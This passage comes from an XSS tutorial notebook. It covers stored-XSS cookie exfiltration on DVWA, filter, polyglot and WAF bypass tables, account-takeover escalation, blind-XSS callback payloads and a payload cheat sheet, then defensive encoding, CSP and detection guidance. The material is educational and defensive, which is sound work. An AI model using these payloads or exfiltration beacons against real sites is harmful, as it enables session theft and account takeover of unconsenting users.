because the stored value is rendered into the page for every visitor. Log out, log back in,
revisit: it still fires. That persistence is the signature of stored XSS.

To demonstrate real impact non-destructively, replace the alert with a cookie beacon to a
listener you control:
```html
<svg onload="new Image().src='http://localhost:9000/c?'+encodeURIComponent(document.cookie)">
```
Run a catch-all listener in another terminal:
```bash
# Minimal listener that logs any incoming request
python3 -m http.server 9000
# ...or, to see full requests including the query string:
while true; do printf 'HTTP/1.1 200 OK\r\n\r\n' | nc -lp 9000 -q1; done
```
Reload the guestbook page; your listener logs a hit like
`GET /c?PHPSESSID%3D... security%3Dlow` — the victim's cookie, exfiltrated. **On DVWA the
session cookie is not `HttpOnly`, which is exactly why JS can read it; setting `HttpOnly`
(Part 12) blocks this specific exfil path.**

### 9.4 PortSwigger Web Security Academy — context practice

The Academy has free, legal, browser-based labs that drill each context. Do these in order;
they map one-to-one onto Part 3:

1. **"Reflected XSS into HTML context with nothing encoded"** — `<script>alert(1)</script>`.
2. **"Stored XSS into HTML context with nothing encoded"** — post a comment with a tag.
3. **"Reflected XSS into attribute with angle brackets HTML-encoded"** — you can't inject a
   tag (`<`/`>` are encoded), so break out *within* the attribute:
   `"><...>` fails, but `" onmouseover="alert(1)` (adding an event handler to the existing
   tag) works. Solution payload: `"onmouseover="alert(1)` inside a `value="..."`.
4. **"Reflected XSS into a JavaScript string with angle brackets HTML-encoded"** — you're in
   `<script>...'INPUT'...</script>`; angle brackets are encoded so you can't leave the script
   block, but the quote is not, so break the string: `'-alert(1)-'` or `';alert(1)//`.
5. **"Stored XSS into anchor href attribute"** — the sink is `<a href="INPUT">`; inject
   `javascript:alert(1)`.

Each lab shows the exact sink in its source — read it, match it to a context in Part 3, and
you'll craft the payload without looking at the solution. That transfer skill is the point.

### 9.5 Confirming and reporting

For any hit, capture: the exact request (method, URL, body, required headers/cookies), the
response fragment showing the unencoded reflection **in source**, a screenshot of the
`alert(document.domain)` popup, and — for reflected — a one-click PoC URL or auto-submit HTML
page. That package is what a bug-bounty triager needs to reproduce and pay.

## Part 10: Filters, Sanitisers, and Bypasses

Most real targets do *something* to your input. Understanding what they do — and its gaps —
is the difference between "the field is filtered, no bug" and a working payload. Broadly you
face three defences, in increasing strength: **blocklist filters**, **output encoders**, and
**HTML sanitisers**.

### 10.1 Blocklist filters (the weakest, most common, most bypassable)

A blocklist removes or rejects "dangerous" substrings: `<script`, `onerror`, `javascript:`,
etc. Blocklists are fragile because HTML has enormous flexibility. Common bypass classes:

| Filter behaviour | Bypass technique | Example |
| --- | --- | --- |
| Strips lowercase `<script>` | Case variation (tags are case-insensitive) | `<ScRiPt>alert(1)</sCrIpT>` |
| Strips `<script>` once, non-recursively | Nested tags reform after removal | `<scr<script>ipt>alert(1)</script>` |
| Blocks `<script>` only | Use event-handler vectors | `<svg onload=alert(1)>` / `` |
| Blocks `onerror`/`onload` | Use rarer handlers | `<body onpageshow=alert(1)>` / `<details open ontoggle=alert(1)>` / `<input autofocus onfocus=alert(1)>` |
| Blocks the word `alert` | Alternative sink | `confirm(1)`, `print()`, `(alert)(1)`, `top['al'+'ert'](1)`, `window['alert'](1)` |
| Blocks `javascript:` | Case / whitespace / entities in the scheme | `JaVaScRiPt:alert(1)`, `java\tscript:alert(1)`, `javascript&colon;alert(1)` |
| Blocks parentheses | Backtick / template-literal or throw-based call | `` alert`1` ``, `onerror=alert;throw 1` |
| Blocks spaces between attrs | Slash or newline as separator | `<svg/onload=alert(1)>`, `` |
| Strips quotes | Unquoted attributes | `<svg onload=alert(1)>` (no quotes needed) |

**HTML-entity and encoding tricks.** Browsers decode HTML entities in many attribute
contexts, so `javascript&#58;alert(1)` in an `href` becomes `javascript:alert(1)` after
parsing. Event-handler *values* are also HTML-decoded, so `onclick="&#97;lert(1)"` runs
`alert(1)`. Layer with URL-encoding for parameters that are URL-decoded server-side and
HTML-decoded client-side (double-decoding bugs).

### 10.2 The polyglot — one payload, many contexts

When you can't (or don't want to) analyse the context first, a **polyglot** is a single
string crafted to break out and execute across several contexts at once. The famous one by
0xSobky:

```html
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```
It combines a `javascript:` scheme, comment sequences that survive several parsers, handlers,
and tag break-outs (`</script>`, `</style>`, `</textarea>`, `</title>`), plus an `<svg
onload>`. Use polyglots to *quickly flag* that a parameter is exploitable across contexts,
then simplify to a clean, minimal payload for the report. **Don't report the polyglot itself
— report the smallest payload that proves execution in the actual context.**

### 10.3 WAF evasion

A Web Application Firewall (e.g. Cloudflare, AWS WAF, Akamai) sits in front of the app and
blocks requests matching signatures. Since you studied WAF bypass for SQLi in the previous
notebook, the mindset transfers: WAFs pattern-match, so mutate the pattern.

- **Encoding:** URL-encode, double-URL-encode, or use HTML entities the browser will decode
  but the WAF signature won't match (`%3Csvg`, `&lt;` in some flows, `\x3c`, `<`).
- **Case & whitespace:** `<SvG/OnLoAd=...>`; replace spaces with `/`, tab (`%09`), newline
  (`%0a`), form-feed (`%0c`).
- **Uncommon tags/handlers:** rotate through the long tail — `onpointerenter`, `onanimationend`
  (paired with a CSS animation), `ontoggle`, `onbeforetoggle`, `onwebkitanimationstart`.
- **Split the signature:** `` — Unicode-escape a character inside
  a JS context so the literal `onerror` string never appears; or break `alert` as
  `top[/al/.source+/ert/.source]`.
- **DalFox `--waf-evasion`** automates several of these; still confirm by hand.

Ethical note: WAF bypass is legitimate testing *within an authorised scope*. It is not a
licence to attack systems you don't have permission for, and aggressive bypass fuzzing can
trip rate-limits and lockouts — throttle and coordinate with the program.

### 10.4 HTML sanitisers (the strong defence — and where they still fail)

A **sanitiser** parses the input as HTML and returns a cleaned tree, allowing only a safe
allowlist of tags/attributes. Done right (server-side or with **DOMPurify** client-side),
this is the correct way to allow *rich* user HTML (comments with `<b>`, `<a>`). Bypasses here
are subtle and usually depend on **parser differentials** — the sanitiser and the browser
disagree about how a string parses. That is the territory of **mutation XSS (mXSS)**, where
`innerHTML` re-serialisation mutates a benign-looking tree into an executing one. mXSS and
sanitiser-bypass research is deep enough to be its own chapter — it's Chapter 2 of this
notebook. For now, know that "we run a sanitiser" is a strong control, but only if it's a
current, well-maintained one (DOMPurify), configured without dangerous allowances (no
`ALLOW_UNKNOWN_PROTOCOLS`, no re-enabling `mustache`/template syntax), and kept patched.

## Part 11: Real-World Impact, Bug Bounty & CTF Angles

XSS is consistently among the most-reported vulnerability classes on HackerOne and Bugcrowd,
and it is a staple of CTF web challenges. Understanding *impact* is what turns a raw `alert()`
into a well-paid report.

### From `alert(1)` to account takeover

An `alert()` proves execution; it is not the impact. Escalate (on your own test account) to
demonstrate real consequences:

- **Session hijacking** — exfiltrate `document.cookie` if the session cookie lacks
  `HttpOnly`. Replay the cookie to ride the victim's session.
- **Session-independent takeover even with HttpOnly** — you can't read the cookie, but your
  script runs *as* the user, so just *use* the session: `fetch('/account/email', {method:'POST',
  body:'email=attacker@evil.example', headers:{...}})` to change the victim's email, then
  trigger a password reset. This is why "we set HttpOnly" does not downgrade XSS to
  informational — script-in-origin can perform any authenticated action.
- **CSRF-token theft** — read the anti-CSRF token from the DOM and use it to forge
  state-changing requests the SameSite/CSRF defence would otherwise block.
- **Credential capture** — inject a fake login/re-auth form and post entered credentials to
  your server.
- **Keylogging & form capture** — `addEventListener('keydown', ...)` to harvest anything typed.
- **Worming (stored)** — a stored payload that re-posts itself to every resource the viewing
  user can write to spreads exponentially (the Samy pattern).

### Bug-bounty severity drivers

| Factor that raises severity | Factor that lowers it |
| --- | --- |
| Stored, on a page many users/admins view | Reflected, requires unusual headers/content-type |
| Fires with no interaction (`onload`, `autofocus onfocus`) | Requires improbable user action |
| Executes on the main sensitive origin | Fires only in a sandboxed/isolated subdomain |
| Session cookie not `HttpOnly`, weak/no CSP | Strong CSP that blocks inline/exfil |
| Self-XSS made exploitable via a delivery vector | Pure self-XSS (only the attacker can trigger it on themselves) |

**"Self-XSS" caveat:** a payload that only executes in *your own* session (e.g. you paste it
into your own settings and only you see it) is normally *not* a valid finding — until you
chain it with something (a CSRF that sets the value in a victim's account, or a way to render
it to others), at which point it becomes real. Triagers routinely close pure self-XSS as
informational; always look for the delivery/chain that makes it hit someone else.

**Blind XSS in practice** is where a lot of bounty money is: submit an OOB payload
(`"><script src=//YOURID.xss.report></script>`) into every "contact us", "report a problem",
"delivery instructions", "user-agent-logged" field. Days later it may fire inside a staff
admin console, delivering you a screenshot and DOM of an internal tool — frequently Critical.

### CTF angle

Web CTF challenges use XSS as the mechanism to steal a **flag** or an **admin cookie** from a
scripted "admin bot" that visits URLs you submit. The pattern: find the reflected/stored XSS,
craft a payload that `fetch`es the flag page or exfiltrates `document.cookie` to your
webhook, submit the URL to the bot, and read the flag off your listener. Filter/CSP bypass
is the usual twist — many challenges give you XSS but wrap it in a restrictive
`Content-Security-Policy` you must defeat (find an allowed script host, a JSONP endpoint, or a
`base-uri`/dangling-markup trick). PortSwigger's Academy, picoCTF "web exploitation", and
`XSS game` (Google) are the standard practice grounds.

## Part 12: Detection & Defense Angle

Everything above is offense. This consolidated section is the defender's chapter: how to stop
XSS in code, and how to detect exploitation. The order matters — **fix at the sink with
context-aware output encoding first; everything else is defense in depth.**

### 12.1 The one true fix — context-aware output encoding

XSS is an *output* bug: it happens when data is written into a page without being encoded for
the context it lands in. The fix is to **encode on output, for the specific context**, every
time untrusted data is emitted:

| Output context | Correct encoding | Example |
| --- | --- | --- |
| HTML element content | HTML-entity encode `< > & " '` | `<div>&lt;svg&gt;</div>` |
| HTML attribute value | Attribute-encode + always quote the attribute | `value="&quot;&gt;..."` |
| Inside `<script>` (JS string) | JavaScript string escaping / `JSON.stringify` — never raw | `var u = "<svg>";` |
| URL / `href` / `src` | URL-encode + validate the scheme (allow only `http/https/mailto`) | reject `javascript:` |
| CSS value | CSS escaping (or don't put untrusted data in CSS) | — |

The reason "just escape `<` and `>`" is insufficient: in attribute context a `"` breaks out
without any `<`; in JS-string context a `"` or `'` or `</script>` breaks out. **Encoding must
match the sink.** Use your framework's context-aware encoder rather than hand-rolling.

### 12.2 Framework auto-escaping — use it, don't defeat it

Modern frameworks HTML-escape interpolated values by default, which kills the majority of
XSS if you don't opt out:

- **React** escapes `{value}` in JSX automatically. The footgun is
  `dangerouslySetInnerHTML={{__html: value}}` — that bypasses escaping; only feed it
  sanitised HTML (DOMPurify). Also beware `href={userValue}` allowing `javascript:` and
  passing user data into `ref`/`dangerous` DOM APIs.
- **Angular** escapes interpolations `{{value}}` and has a strong contextual sanitiser;
  `bypassSecurityTrustHtml`/`[innerHTML]` with untrusted data re-opens the hole.
- **Vue** escapes `{{ }}`; `v-html` is the dangerous opt-out.
- **Server templates** — Jinja2 (`autoescape` on), Twig, Razor, Go `html/template`
  (context-aware, escapes automatically — as opposed to `text/template` which does NOT).
  Using the wrong template package or `| safe` / `|raw` filters is the classic regression.

**Blue-team code-review heuristic:** grep the codebase for the opt-outs —
`dangerouslySetInnerHTML`, `v-html`, `bypassSecurityTrust`, `innerHTML =`, `.html(`,
`document.write`, `| safe`, `|raw`, `mark_safe`, `Html.Raw`. Each is a place a developer told
the framework "trust me," and each needs a sanitiser or a justification.

### 12.3 Content-Security-Policy (CSP) — defense in depth

**CSP** is an HTTP response header (`Content-Security-Policy`) that tells the browser which
sources of script/style/etc. are allowed, and whether inline script may run. A strong CSP
turns many XSS from "account takeover" into "can't execute" because the injected inline
script is refused. A modern, robust policy uses **nonces** or **hashes** plus
`strict-dynamic`:

```http
Content-Security-Policy: default-src 'self';
  script-src 'nonce-r4nd0m' 'strict-dynamic';
  object-src 'none'; base-uri 'none';
```
Only `<script nonce="r4nd0m">` blocks the server itself emitted will run; an injected
`<script>` without the (unpredictable) nonce is blocked, and injected event handlers/inline
JS are refused. **CSP is not a substitute for output encoding** — allowlist bypasses, JSONP
endpoints on allowed hosts, `unsafe-inline`, and overly broad `*.googleapis.com`-style
sources routinely defeat weak policies — but a good CSP is a powerful second line. Attackers
therefore always read the CSP header early; defenders should test theirs with Google's CSP
Evaluator.

### 12.4 Cookie flags and related hardening

- **`HttpOnly`** on session cookies stops `document.cookie` exfiltration (blocks the theft
  path in Part 9.3). It does *not* stop session-riding via authenticated `fetch`.
- **`Secure`** ensures cookies only travel over HTTPS.
- **`SameSite=Lax/Strict`** limits cross-site sending (more a CSRF control, covered in the
  CSRF chapter, but reduces some XSS-assisted attacks).
- **`X-Content-Type-Options: nosniff`** stops MIME-sniffing that can turn a non-HTML response
  into an executing HTML one.
- **Trusted Types** (`Content-Security-Policy: require-trusted-types-for 'script'`) — a newer
  browser feature that forces dangerous DOM sinks (`innerHTML`, `script.src`) to accept only
  typed, sanitiser-vetted values, structurally killing most DOM XSS. Big win where supported.

### 12.5 Detecting XSS attempts (monitoring & IR)

- **WAF / RASP logs** — spikes of `<script`, `onerror=`, `javascript:`, `%3Cscript` in
  parameters and headers. Noisy but useful for alerting.
- **CSP violation reports** — set `report-to`/`report-uri`; a flood of `script-src` violations
  for inline script from real users is a strong signal that a stored XSS is firing in the wild.
- **Anomalous outbound requests** from user sessions to unknown hosts (cookie exfil beacons)
  visible in egress logs / browser telemetry.
- **Content integrity monitoring** on stored fields — scan persisted user content for markup
  in fields that should be plain text.
- **Incident response** for a confirmed stored XSS: identify the poisoned records and purge
  them, rotate session secrets / force re-login (stolen cookies), review what the injected
  script could reach, and add the payload signature to detection. Then fix the sink.



The layering is the message: encoding stops the bug, CSP and Trusted Types contain the ones
that slip through, cookie flags and monitoring limit and reveal the damage.

## Part 13: Common Pitfalls and Gotchas

Mistakes that cost hours, collected so you skip them:

- **Testing on the rendered page instead of the source.** The browser may "fix" your broken
  markup on screen, or your `&lt;` renders as a visible `<` that *looks* injected but is inert.
  Always confirm in **View Source** / Burp's raw response whether your `<` is a real tag.
- **Confusing reflection with execution.** Your string coming back does not mean it ran. It
  may be in a `<textarea>`, an HTML comment, an inert attribute, or a JSON response. Confirm
  with an observable effect.
- **Ignoring the second (and third) reflection.** A parameter often reflects in multiple
  places with different encoding. One may be safe, another live. Search the whole response.
- **Wrong context, right idea.** Firing `<script>` inside a double-quoted attribute and
  concluding "not vulnerable" — you needed a `">` break-out first. Re-read the surrounding
  bytes before giving up.
- **Length limits truncating the payload.** A `maxlength` on the client is trivially bypassed
  in Burp, but a *server-side* length cap may cut your payload. Use short vectors
  (`<svg onload=alert(1)>`) or load external script (`<script src=//x.tld>` is short).
- **Forgetting URL-encoding in transit.** `+` becomes a space, `&` ends a parameter, `#`
  starts a fragment. Encode payload metacharacters for the *transport*, and remember the
  server decodes them before reflecting.
- **Reporting pure self-XSS.** If only you can trigger it on yourself, it's usually not
  eligible. Find the delivery/chain first.
- **Assuming HttpOnly kills the bug.** It blocks cookie theft, not authenticated actions in
  the victim's session. Severity often stays high.
- **Trusting a client-side filter.** Validation in JavaScript is a UX nicety; the attacker
  bypasses it by sending the request directly through Burp. Only server-side and output-time
  controls count.
- **Blocklist-as-defense on the *defender* side.** If you're fixing XSS, do not "strip
  `<script>`." Encode on output, per context. Blocklists are bypassed (Part 10).
- **CSP with `unsafe-inline`.** A CSP that allows `unsafe-inline` in `script-src` provides
  almost no XSS protection — check for it before assuming CSP saves you (attacker) or
  protects you (defender).

## Part 14: Final Revision / Summary

The compressed model to carry forward:

- **XSS is HTML/JavaScript injection into another user's browser.** Your code runs *in the
  victim's session, on the target's origin*, so the Same-Origin Policy works *for* the
  attacker. That's why it escalates to account takeover.
- **A browser runs a page; `<script>` and event handlers are code.** Untrusted data reaching
  the parser in a code position executes.
- **Three families:** Reflected (payload in the request, echoed back — needs per-victim
  delivery), Stored (payload saved server-side, served to many — poison once), DOM-based
  (client-side source→sink, next chapter). Plus Blind (stored, fires where you can't see).
- **Context is everything.** Element content, quoted attribute, `<script>` string, and URL
  contexts each need a different break-out. Find the reflection, read the exact bytes,
  craft one payload.
- **Methodology:** enumerate inputs → send a unique canary → probe which of `< > " '` survive
  → read context in *source* → craft the matching break-out → confirm execution with
  `alert(document.domain)` → write a reproducible PoC.
- **Tools:** Burp (Proxy/Repeater/Intruder) to see and craft, DalFox/kxss to triage at scale,
  XSS Hunter/Interactsh for blind, DevTools to compare raw HTML vs. parsed DOM.
- **Bypasses:** case, nesting, event-handler tags, rare handlers, encoding/entities,
  whitespace tricks, polyglots for multi-context, WAF-evasion for signatures; sanitiser
  bypass (mXSS) is its own chapter.
- **Defense, in order:** context-aware output encoding (the real fix) → framework
  auto-escaping (don't opt out) → DOMPurify for rich HTML → strong CSP (nonce +
  strict-dynamic) → HttpOnly/Secure/SameSite + Trusted Types → monitoring (CSP reports, WAF,
  egress).
- **Impact framing wins reports:** show session hijack or an authenticated action, not just a
  popup; stored + no-interaction + sensitive origin = high/critical; self-XSS alone = usually
  informational.

The next chapter goes client-side-only: **DOM-based XSS, mutation XSS, and filter bypass** —
where the vulnerability lives in the page's own JavaScript and the payload may never touch
the server at all.

## Part 15: Cheat Sheet / Quick Reference

**Prove-execution payloads (rotate as filters demand):**
```html
<script>alert(document.domain)</script>

<svg onload=alert(document.domain)>
<body onload=alert(document.domain)>
<details open ontoggle=alert(document.domain)>
<input autofocus onfocus=alert(document.domain)>
<iframe src="javascript:alert(document.domain)"></iframe>
<video><source onerror=alert(document.domain)></video>
```

**Break-outs by context:**
```text
Element content            :  <svg onload=alert(1)>
Double-quoted attribute    :  "><svg onload=alert(1)>     or   " onfocus=alert(1) autofocus x="
Single-quoted attribute    :  '><svg onload=alert(1)>     or   ' onfocus=alert(1) autofocus x='
Unquoted attribute         :  x onmouseover=alert(1)
Inside <script> JS string  :  ';alert(1)//   or   '-alert(1)-'   or   </script><svg onload=alert(1)>
href / src (URL context)   :  javascript:alert(1)
```

**Filter-bypass quick hits:**
```text
Case              :  <ScRiPt>...</sCrIpT>
Nested            :  <scr<script>ipt>alert(1)</script>
No script tag     :  <svg onload=...> / 
No parentheses    :  alert`1`   /   onerror=alert;throw 1
No spaces         :  <svg/onload=alert(1)>
scheme obfusc.    :  JaVaScRiPt:alert(1)  / javascript&colon;alert(1)
entity-encoded    :  onclick="&#97;lert(1)"
```

**Detection probes:**
```text
Canary            :  xss7c3k9
Metachar probe    :  xss7c3k9<>"'`/=
Blind (OOB)       :  "><script src=//YOURID.xss.report></script>
```

**Tools:**
```text
Burp Repeater     :  craft/refine one payload, read raw response
Burp Intruder     :  spray a payload list at one position
dalfox url "https://t/?q=FUZZ"           # single URL
cat urls | dalfox pipe -b https://cb     # mass + blind callback
gxss / kxss       :  which of <>"' reflect unencoded, at scale
```

**Defender quick reference:**
```text
Fix              : context-aware OUTPUT encoding at the sink
Rich HTML        : DOMPurify.sanitize(userHtml)
Framework        : keep auto-escape; audit dangerouslySetInnerHTML / v-html / |safe / innerHTML=
CSP              : script-src 'nonce-XXX' 'strict-dynamic'; object-src 'none'; base-uri 'none'
Cookies          : HttpOnly; Secure; SameSite=Lax
Extra            : Trusted Types; X-Content-Type-Options: nosniff; CSP report-uri
```

## Part 16: Practice Labs & Resources

Train each skill from this chapter on legal, purpose-built targets:

**PortSwigger Web Security Academy (free, legal, browser-based)** — the definitive XSS drills:

- *Reflected XSS into HTML context with nothing encoded* — the baseline reflected case.
- *Stored XSS into HTML context with nothing encoded* — the baseline stored case.
- *Reflected XSS into HTML context with most tags and attributes blocked* — event-handler /
  rare-tag discovery.
- *Reflected XSS into attribute with angle brackets HTML-encoded* — attribute break-out.
- *Reflected XSS into a JavaScript string with angle brackets HTML-encoded* — JS-string
  break-out.
- *Stored XSS into anchor href attribute with double quotes HTML-encoded* — `javascript:`
  scheme.
- *Reflected XSS with some SVG markup allowed* — vector rotation.
- *Exploiting XSS to steal cookies* and *…to capture passwords* — impact/weaponisation.

**DVWA (self-hosted)** — the `XSS (Reflected)` and `XSS (Stored)` modules at low → medium →
high → impossible security levels, to feel filters strengthen and see the correct fix.

**Google XSS Game (`xss-game.appspot.com`)** — six escalating levels; excellent for context
and filter intuition.

**Other targets:** OWASP Juice Shop (multiple XSS challenges, incl. DOM and a stored bonus),
bWAPP, WebGoat's XSS lessons, and HackTheBox / TryHackMe web rooms tagged XSS.

**Bug-bounty study:** read disclosed XSS reports on HackerOne's Hacktivity and Bugcrowd's
disclosed submissions — pay attention to how reporters escalate `alert()` into a real
impact narrative and how triagers rate severity.

**Reference material:** the PortSwigger XSS cheat sheet (comprehensive, filterable vectors),
the OWASP XSS Prevention Cheat Sheet (the defender's canonical guide), and the DOMPurify and
CSP documentation for the defensive side.

**Practice questions / labs to self-test:**

1. A parameter reflects your input inside `<input type="text" value="HERE">` and both `<`
   and `>` are HTML-encoded, but `"` is not. Write a payload that executes JavaScript, and
   explain why a `<script>`-based payload cannot work here.
2. You find that a "display name" you set in your profile is rendered unencoded in the site
   header on every page, including an admin moderation queue. Classify the XSS type,
   describe the highest-impact realistic attack, and explain how you'd prove it if the admin
   queue is not visible to you.
3. A filter removes the literal string `<script>` exactly once, is case-insensitive, and does
   not remove event-handler attributes. Give two distinct payloads that still execute, and
   explain the parsing behaviour each relies on.
4. An application sets `HttpOnly` on its session cookie and a developer argues the stored XSS
   you reported is therefore "informational." Rebut this with a concrete attack that needs no
   access to the cookie value, and name the response header that would actually reduce the
   impact.
5. Given the CSP `script-src 'self' 'unsafe-inline'; object-src 'none'`, explain why it fails
   to stop a reflected XSS that injects an inline `<svg onload=...>`, and rewrite the policy
   into one that would block it.
